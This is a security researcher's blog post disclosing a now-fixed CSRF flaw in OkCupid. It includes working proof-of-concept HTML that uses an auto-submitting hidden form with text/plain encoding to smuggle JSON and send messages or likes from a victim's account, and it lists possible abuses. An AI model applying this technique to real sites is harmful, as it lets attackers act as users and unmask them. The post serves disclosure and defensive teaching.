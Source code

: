 ```yaml
---
title: how to be popular
author: yan
date: 2021-08-02
url: /csrf/

---
```


This is a quick blog post about a security vulnerability (now fixed) that allowed me to make anyone like or messaage a profile on okcupid.com simply by getting them to click a link on my website. In doing so, I used one of the most boring web application security issues (CSRF) combined with a somewhat interesting JSON type confusion.

Proof that it worked on a friend who agreed to help me with security testing and is definitely NOT a rabbit:

![Definitely not a rabbit](https://lh3.googleusercontent.com/u/0/d/156ROQFdMqW1BxcuBRo3AWDAzMMcp3SFt=w2772-h1604-iv2)

## A short recap of CSRF

The story, like many, began with me opening devtools and checking if websites were sending CSRF tokens alongside requests that require authentication, like sending messages to another user from your account. [CSRF](https://en.wikipedia.org/wiki/Cross-site_request_forgery) is an attack whereby an attacker sends a link to a victim which, when visited in the victim's browser, performs some action on behalf of the victim on a site that they are logged into. So for instance, if Bob is logged into Facebook, and Facebook doesn't have CSRF mitigations on the endpoint that deletes a user's account, then Alice can trick him into deleting his Facebook account by sending him a hidden link to `https://facebook.com/delete` (which is not the actual URL that deletes your FB account). 

In this case, I noticed that OkCupid messages are sent via POST requests to `https://www.okcupid.com/1/apitun/messages/send` with a JSON-encoded body like so:

```
{"receiverid": "123", "body": "sup"}
```

Conspicuously, there was no CSRF token sent in the request. CSRF tokens are a common way to mitigate these attacks by including an unguessable secret token as an additional HTTP header or POST parameter. The receiving endpoint only allows the request after validating the token; the idea being that while Bob's authentication cookies are sent automatically by his browser when he clicks on Alice's malicious link, Alice isn't able to include a valid CSRF token in the link and therefore the request will fail. 

## But what about the same-origin policy?

Web developers should be aware that the most fundamental security policy of the web is the same-origin policy: a website on one origin (AKA a scheme + host tuple) running in the browser should not be able to access data on a distinct origin unless the other origin explicitly allows it via a mechanism like [Cross-Origin Resource Sharing](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS) (CORS). You might be tempted to think that CSRF isn't possible if your website doesn't send a CORS header.

The problem is that certain types of requests don't care about CORS, and the rules for this are not obvious. For instance:

1. If your site tries to GET a cross-origin image using XHR, it's blocked by default.
2. If your site instead loads the image via an `img` tag instead, it works.
3. If your site sends a POST to another origin via the fetch API, it's blocked by default.
4. If your site instead sends the POST by clicking the submit button on an HTML `form` element via javascript, it works.

## Doing it in practice

So how do we create a webpage which sends a cross-origin POST request to the OkCupid message-sending endpoint? This was attempt #1:

```
<html>
  <body>
    <form id="form" method="post" action="https://www.okcupid.com/1/apitun/messages/send">
      <input style='display:none' name='foo' value='bar'>
      <input type="submit" value="Click me">
    </form>
    <script>
      window.onload = () => {form.submit()}
    </script>
  </body>
</html>
```

I visited this on a localhost server and got a very helpful error message after the form was auto-submitted:

![attempt 1](https://lh3.googleusercontent.com/u/0/d/1xlriwXYOkHpQFPVF2SnSi0C2lDKYIQOA=w2772-h1604-iv2)

Interesting - it's not complaining that the request is initiated by some random origin, but rather that the POST body (`foo=bar`) is invalid JSON! Maybe we can fix that with a weird trick:

```
<html>
  <body>
    <form id="form" method="post" action="https://www.okcupid.com/1/apitun/messages/send">
      <input style='display:none' name='{"foo":"' value='bar"}'>
      <input type="submit" value="Click me">
    </form>
    <script>
      window.onload = () => {form.submit()}
    </script>
  </body>
</html>
```

My reasoning here was that the browser converts the `name` and `value` attributes on HTML `input` elements into `name=value` in the POST body that gets sent over the wire; so if `name` is `{"foo":"` and `value` is `bar"}`, this would become `{"foo":"=bar"}` which would be JSON-parsed into the bizarre-looking object `{foo: '=bar'}` without a problem. With a rush of hope unfelt since before the pandemic, I loaded this up in my browser and saw:

![attempt 2](https://lh3.googleusercontent.com/u/0/d/1RQPrqD0tz1ew8uCa6XSj4Nqw7SYLen_h=w2178-h1604-iv2)

... the exact same error. But this time it was because my beautiful POST body had been URL-encoded to become the ugly-but-safe string `%7B%22foo%22%3A%22%3Dbar%22%7D`. If only there were a way to tell the browser to not encode this form body!

Luckily the W3C deities gave us exactly such a gift in the form (pun intended) of the `enctype` [attribute](https://developer.mozilla.org/en-US/docs/Web/API/HTMLFormElement/enctype). 

```
<html>
  <body>
    <form id="form" method="post" enctype="text/plain" action="https://www.okcupid.com/1/apitun/messages/send">
      <input style='display:none' name='{"foo":"' value='bar"}'>
      <input type="submit" value="Click me">
    </form>
    <script>
      window.onload = () => {form.submit()}
    </script>
  </body>
</html>
```

With the help of `enctype="text/plain"`, the payload is finally sent in its true form (pun intended again) of `{"foo":"=bar"}`:

![attempt 3](https://lh3.googleusercontent.com/u/0/d/1S3vsIlvQL1m8Sa_RzwG5w59ttrBZyuJI=w2178-h1604-iv2)

Putting it all together, the following HTML will automatically send a message that says "I am a rabbit" to the fake userID 123. (Finding out someone's real userID is left as an exercise to the reader.)

```
<html>
  <body>
    <form id="form" method="post" action="https://www.okcupid.com/1/apitun/messages/send" enctype="text/plain">
      <input style='display:none' name='{"foo":"' value='", "receiverid":"123", "body":"i am a rabbit", "source":"desktop_global", "service":"other"}'>
      <input type="submit" value="Click me">
    </form>
    <script>
      window.onload = () => {form.submit()}
    </script>
  </body>
</html>
```

Note that the POST body becomes `{"foo":"=", "receiverid":"123", "body":"i am a rabbit","source":"desktop_global", "service":"other"}`. Because the browser inserts a `=` between the name and value attributes, this gets set to the value of a dummy key, `foo`, which okcupid fortunately ignores. 

I uploaded this HTML to my website, visited the link, and voila:

![finally](https://lh3.googleusercontent.com/u/0/d/1iUiCZE2T-iCN9wWQZMsXEs8bq5CJCiXj=w2772-h1604-iv3)

It works! ... Or would work if I had finished my test profile so I could send messages to other users.

Too lazy to do this myself, I sent my CSRF link with my own userID filled in to some friends. Lo and behold, my OkCupid test profile was seranaded by a series of messages that they didn't mean to send me.

![beloved](https://lh3.googleusercontent.com/u/0/d/1bN7-RmZ15d4H0QhRHBz55XszCn8Zs1O9=w2772-h1604-iv1)

I briefly felt very popular, which made it all worthwhile.

## Parting thoughts

Besides making other users unknowingly message your OkCupid profile or someone else's profile of your choosing, I found you could use essentially the same vulnerability to get other users to "like" your profile. Obviously you could abuse this in order to match with anyone you could trick into clicking a link, or you could spam the link to a bunch of people to increase your profile's rankings in whatever mysterious algorithm OkCupid uses to suggest people.

It also occurred to me that if I redirected my website to the CSRF link that automatically sent a message to me, I could see the OkCupid profiles of my website visitors who were logged into okcupid.com, which would make for an intense web analytics tool.

The obvious fix is for OkCupid to require a CSRF token for these authenticated endpoint, but my attack also relied on the fact that these endpoints were happy to accept POSTs with `content-type: text/plain` even though they actually expected JSON. This made me curious if other sites were making the same mistake, so I quickly scraped some of the Alexa top sites looking for requests to endpoints containing `api` or `json`.

Once I had a list of a few hundred endpoints, I sent each of them a POST with `content-type: text/plain` and body `{"foo":"bar"}`. 87 out of 215 of these endpoints didn't error, and many appeared to return JSON responses indicating success. Granted most of these are probably not authenticated endpoints and some of them may need to accept non-JSON text, but this suggests to me that developers should be careful accepting `text/plain` inputs on endpoints that parse JSON.

### Disclosure timeline

This was reported to OkCupid in April 2021. According to their team, it was fixed without delay which prevented exploitation of the bug. I would like to thank their security team for the bounty and permission to share this blog post.
